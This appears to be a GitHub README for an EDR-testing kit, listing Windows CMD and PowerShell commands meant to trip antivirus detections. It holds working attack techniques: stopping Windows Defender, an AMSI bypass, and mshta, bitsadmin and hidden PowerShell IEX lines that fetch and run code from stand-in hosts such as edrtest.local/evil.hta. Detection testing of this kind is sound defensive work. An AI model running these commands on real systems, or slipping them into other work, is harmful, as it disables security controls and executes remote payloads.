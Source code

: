# edrtrigger

# EDR Trigger (Non-Malicious Testing)

> [!WARNING]
>
> Set of commands are intended for **non-malicious testing** to trigger simple EDR/AV alerts or detections. Although all these are non-malicious and use non-routable TLD (`.local`), they should only be executed in production environments if permitted by **compliance policies or explicit exceptions**.
>
> _*Proceed at your own risk*_.

## CMD

1. **Tasklist Enumeration**  
```cmd
cmd.exe /c tasklist
```

2. **Disabling Windows Defender**  
```cmd
cmd.exe /c sc stop WinDefend
```

3. **Certutil Download**  
```cmd
cmd.exe /c certutil.exe -urlcache -split -f http://7-zip.org/a/7z2405-x64.exe 7zip_installer.exe
```

4. **LOLBAS: Rundll32 (JavaScript Execution)**  
```cmd
cmd.exe /c rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write('Hello');"
```

5. **Whoami (Enumeration)**  
```cmd
cmd.exe /c whoami > %TEMP%\whoami.txt
```

6. **MSHTA Launching Remote Script**  
```cmd
cmd.exe /c mshta.exe http://edrtest.local/evil.hta
```

7. **BITSAdmin Downloading Payload**  
```cmd
cmd.exe /c bitsadmin /transfer myjob /download /priority high http://edrtest.local/file.exe C:\Users\Public\file.exe
```

## Powershell

1. **Encoded PowerShell**  
```powershell
powershell -EncodedCommand CgpoZWxsbyBlZHI=
```

2. **PowerShell Abuse**  
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://edrtest.local/ps_script.ps1')"
```

3. **AMSI Bypass**  
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

4. **Malicious Macro Trigger**  
```powershell
Shell("powershell -w hidden -nop -c iex(iwr http://edrtest.local/ps_script.ps1)")
```

5. **COM Abuse (Excel COM Object Execution)**  
```powershell
$xls = New-Object -ComObject Excel.Application; $xls.Visible = $false; $xls.Quit()
```
